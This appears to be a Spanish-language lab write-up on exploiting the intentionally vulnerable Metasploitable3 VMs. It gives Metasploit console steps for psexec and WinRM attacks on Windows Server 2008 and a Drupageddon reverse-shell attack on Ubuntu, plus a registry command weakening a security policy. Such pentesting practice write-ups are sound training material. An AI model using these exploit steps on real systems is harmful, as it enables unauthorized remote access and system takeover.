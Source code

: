 # Vulnerabilidades Metasploitable3
Metasploitable3 es una máquina virtual que contiene desde su creación vulnerabilidades a propósito, con el fin de que sirva como un campo de pruebas para aquellos que quieran hacer pentesting, es decir, probar a explotar la máquina mediante uno de estos vectores.

Metasploitable3 viene con dos máquina virtuales, Windows Server 2008 y Ubuntu 14.04 (sin GUI).

## Windows Server 2008
### psexec
Psexec es una herramienta de Windows que sirve de reemplazo ligero a telnet, permitiendo ejecutar procesos en otros sistemas, completando la interactividad completa para las aplicaciones de consola sin tener que instalar manualmente el software cliente.

Sin embargo, en nuestro Windows Server 2008, esta herramienta contiene un agujero de seguridad. Metasploit (una librería de scripts diseñados para pentesting) tiene un módulo llamado `exploit/windows/smb/psexec` que permite explotarlo de forma remota si se conoce la contraseña de un usuario. Por otro lado, el exploit funciona a través de SMB, por lo que el servicio y su puerto correspondiente (445) deben estar activados.

Cabe aclarar que, para que el módulo funcione, Windows Server 2008 debe tener una política concreta de seguridad desactivada, la cual es `LocalAccountTokenFilterPolicy`. De forma simplificada, esta política es un filtro que previene que se usen privilegios elevados a través de la red. Para desactivarla, se puede ejecutar este comando a través de una CMD:

```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

Los pasos para realizar el exploit son los siguentes:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.129
RHOST => 192.168.1.129
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass vagrant
SMBPass => vagrant
msf exploit(psexec) > exploit
```

El proceso es el siguiente: Abrimos la terminal de metasploit, y seleccionamos `exploit/windows/smb/psexec` mediante el comando `use`. Posteriormente le decimos al programa a qué IP queremos mandar el ataque, en nuestro caso a la `192.168.1.129`. Posteriormente se le indica el usuario y la contraseña que queremos utilizar para el ataque (Administrator y vagrant), y por últmo ejecutamos el exploit mediante el comando igualmente llamado `exploit`.

Por defecto, la payload (el código malicioso que se ejecuta en el dispositivo al que queremos acceder) se tratará de Meterpreter, un programa muy potente que permite gran control sobre el sistema operativo, que nos permitirá explorar, modificar, borrar archivos, extraer usuarios y contraseñas hash, etc.

### WinRM
WinRM es un protocolo de Microsoft que permite acceder o intercambiar información de gestión de servidores y software a través de una red que viene preinstalado en los sistemas operativos Windows más modernos.

En Windows Server 2008 existe una vulnerabilidad en la que, si conocemos las credenciales de un usuario o las crackeamos, podemos manipular la máquina de forma remota con utilidades como Meterpreter. Si el servicio de WinRM se encuentra activo, podemos hacer uso de `exploits/windows/winrm/winrm_script_exec` para aprovecharnos.

Los pasos para realizar el exploit son los siguientes:

```
msf exploit(handler) > use exploit/windows/winrm/winrm_script_exec
payload => windows/meterpreter/reverse_tcp
msf exploit(winrm_script_exec) > set RHOST 192.168.1.129
RHOST => 192.168.1.129
msf exploit(winrm_script_exec) > set USERNAME vagrant
USERNAME => vagrant
msf exploit(winrm_script_exec) > set PASSWORD vagrant
PASSWORD => vagrant
msf exploit(winrm_script_exec) > exploit
```

El proceso es el siguiente:  Abrimos la terminal de metasploit, y seleccionamos `exploit/windows/winrm/winrm_script_exec` mediante el comando `use`. Posteriormente seleccionamos a qué IP queremos dirigir el ataque, en este caso a la `192.168.1.129`. Luego seleccionamos el usuario y contraseña con la cual haremos posible el exploit, en este caso `vagrant` y 'vagrant'. Por último, ejecutaremos `exploit` para proceder.

Al igual que antes, meterpreter será la payload por defecto. Si queremos cambiarla, podemos hacer uso del comando `show payloads` para ver todos los payloads disponibles, y luego el comando `use payload [PAYLOAD A USAR]` para seleccionarlo.

## Ubuntu 14.04
### Drupal HTTP
Drupal es una aplicación gratuita y de código abierto que puede ser usado para crear y gestion contenido en páginas webs, parecido a otras aplicaciones como Wordpress. Se caracteriza por ser versátil y estar centrada en desarrolladores y en ofrecer más opciones de personalización.

En esta versión de Ubuntu y Drupal, existe una vulnerabilidad que permite acceder como usuario de forma remota a la terminal del sistema Linux, tan solo con conocer la IP del dispositivo y sin tener que conocer usuarios ni sistemas. Para usar el exploit, tan solo es necesario (a parte de la IP) conocer/intuir dónde se encuentra el directorio `drupal/`.

Los pasos para realizar el exploit son los siguientes:

```
msf > use exploit/multi/http/drupal_drupageddon
msf exploit(multi/http/drupal_drupageddon) > set rhost 192.168.1.136
rhost => 192.168.1.136
msf exploit(multi/http/drupal_drupageddon) > set targeturi /drupal/
targeturi => /drupal/
msf exploit(multi/http/drupal_drupageddon) > set payload php/reverse_perl
payload => php/reverse_perl
msf exploit(multi/http/drupal_drupageddon) > exploit
```

El proceso es el siguiente:  Abrimos la terminal de metasploit, y seleccionamos `exploit/multi/http/drupal_drupageddon` mediante el comando `use`. Seleccionamos la IP del dispositivo con el que vamos a hacer pentesting, en este caso `192.168.1.136`. Luego, al atributo `targeturi` le asigno el directorio `drupal/`, para posteriormente asignar la payload `php/reverse_perl`. Esto último es opcional, ya que por defecto se selecciona automáticamente el programa meterpreter en su versión de PHP, pero escogemos este otro payload que permite conectarnos directamente a la consola. Por último usamos `exploit` para iniciar el ataque.

Al ejecutarlo, si sale bien estaremos en la consola de Ubuntu de forma remota como si fuera una shell normal, estando probablemente logueados como el usuario `www-data`.
